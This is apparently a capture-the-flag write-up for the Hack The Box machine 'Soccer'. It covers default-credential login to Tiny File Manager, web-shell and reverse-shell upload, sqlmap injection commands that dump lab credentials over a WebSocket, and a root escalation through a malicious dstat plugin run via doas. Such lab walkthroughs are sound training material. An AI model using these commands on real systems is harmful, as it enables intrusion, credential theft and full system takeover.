# Soccer - HTB Write-up

### Overview

Soccer is an easy-difficulty Linux machine that involves exploiting a Tiny File Manager vulnerability to gain initial access, followed by SQL injection through a WebSocket connection to extract credentials, and finally privilege escalation via a custom dstat plugin.
Reconnaissance

### Port Scanning

First, I enumerated open ports on the target: 

### Full port scan
```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.194 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
```

### Service enumeration on open ports
```bash
nmap -p$ports -sC -sV 10.10.11.194 -oN nmap
```

### UDP scan
```bash
sudo nmap 10.10.11.194 -sU -oN nmap_UDP
```

## Open ports:

22/tcp - OpenSSH 8.2p1 Ubuntu
80/tcp - nginx 1.18.0
9091/tcp - xmltec-xmlmail?
68/udp - dhcpc (open|filtered)

Add the domain to /etc/hosts:

```bash
echo "10.10.11.194 soccer.htb" | sudo tee -a /etc/hosts
```

## Web Enumeration

Main page:


### Directory Busting

Using feroxbuster to discover hidden directories:

feroxbuster -u http://soccer.htb/ -o feroxbuster


This revealed an interesting endpoint: http://soccer.htb/tiny/


### Tiny File Manager

Accessing the /tiny/ directory presents a login page for Tiny File Manager, a PHP-based application.
Default credentials tested: **admin:admin@123** - Success!

## Initial Foothold

### Web Shell Upload

The application allows file uploads. I can upload a PHP web shell:

### Remote Code Execution

Accessing the uploaded shell confirms RCE:

### Reverse Shell

Uploaded a reverse shell payload and set up a listener:

```bash 
# Upload reverse-shell.php
# Set up listener
nc -lvnp 4444
```


## Lateral Movement

### Discovering soc-player.soccer.htb

While exploring the filesystem, I discovered another domain:

```/etc/nginx/sites-available```


Output shows: soc-player.soccer.htb


Add it to /etc/hosts

## Web Application Analysis

The site soc-player.soccer.htb is a soccer-related application. Create an account:

Email: **1@r.com**

Username: **12345678**

### WebSocket Endpoint

During testing, we find an endpoint /check that creates a WebSocket connection to ws://soc-player.soccer.htb:9091


### SQL Injection via WebSocket

Testing reveals the WebSocket endpoint is vulnerable to SQL injection:

## Database Exploitation with SQLMap

Use SQLMap to automate exploitation:

```bash 
# Initial scan
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"*"}' --level 5 --risk 3 --batch --threads 10
```


```bash
# Enumerate databases
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"*"}' --level 5 --risk 3 --batch --threads 10 --dbs
```


Databases found:

soccer_db


```bash
# Enumerate tables
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"*"}' --level 5 --risk 3 --batch --threads 10 -D soccer_db --tables
```


Interesting table: accounts

```bash
# Dump credentials
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"*"}' --level 5 --risk 3 --batch --threads 10 -D soccer_db -T accounts --dump
```


### Credentials obtained:

Username: **player**

Password: **PlayerOftheMatch2022**

### SSH Access

Use these credentials to connect via SSH:

```bash
ssh player@10.10.11.194
```


## Privilege Escalation

### System Enumeration

Transfer LinPEAS for automated enumeration:

```bash
# On attacker machine
scp /home/kali/Documents/Scripts/linpeas.sh player@10.129.4.124:/home/player

# On target
chmod +x linpeas.sh
./linpeas.sh
```

System Information:

OS: Ubuntu 20.04 (Linux 5.4.0-135-generic)

User: player (uid=1001)

Hostname: soccer
Sudo version: 1.8.31

## SUID and doas Discovery

Checking for SUID binaries reveals an interesting binary:

Noticed ```/usr/local/bin/doas``` - similar to sudo but for BSD systems.

Searched for doas config files:
```bash
find / -type f -name "doas.conf" 2>/dev/null
```
Check doas configuration:




The configuration shows we can run ```/usr/bin/dstat``` as root without password:

### dstat Exploitation

dstat is a resource statistics tool that supports plugins. I can create a custom plugin to gain root access.

Check writable directories:


List available plugins:

```bash
doas /usr/bin/dstat --list
```


Create a malicious plugin that executes a shell:

```bash 
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_exploit.py
```

Verify the plugin was created:

```bash
doas /usr/bin/dstat --list
```


Execute the plugin with doas to gain root shell:

```bash
doas /usr/bin/dstat --exploit
```

